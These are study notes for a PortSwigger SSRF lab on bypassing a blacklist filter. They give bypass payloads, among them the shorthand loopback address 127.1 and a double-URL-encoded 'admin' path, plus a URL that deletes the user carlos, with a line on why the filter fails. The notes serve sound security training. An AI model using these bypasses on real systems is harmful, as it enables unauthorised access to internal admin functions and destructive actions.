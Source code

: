 # Lab #3 - SSRF with blacklist-based input filter

https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter
https://www.youtube.com/watch?v=rE88eYmf0Vc&list=PLuyTk2_mYISIlDtWBIqmgJgn6CYlzHVsQ&index=4
https://github.com/rkhal101/Web-Security-Academy-Series/tree/main/ssrf/lab-03


Vulnerable feature - stock check functionality

Goal - change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos

Analysis:

localhost: http://127.1/
admin interface: http://127.1/%25%36%31dmin
delete carlos:  http://127.1/%25%36%31dmin/delete?username=carlos


- URL decoding one time
- regex search using a blacklist of strings

python3 script.py <url>